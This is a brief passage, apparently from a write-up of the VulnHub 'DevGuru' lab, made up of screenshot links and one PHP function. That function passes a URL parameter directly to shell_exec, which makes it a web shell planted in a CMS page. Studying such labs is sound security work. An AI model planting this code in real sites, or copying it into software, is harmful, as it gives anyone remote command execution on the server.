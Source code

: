 [![](/assets/images/vulnhub/devguru/15cc7f92.png)](/assets/images/vulnhub/devguru/15cc7f92.png)

![](/assets/images/vulnhub/devguru/5fddd748.png)

```php
function onStart()
{
    $this->page["myVar"] = shell_exec($_GET['jiveturkey']);
}
```
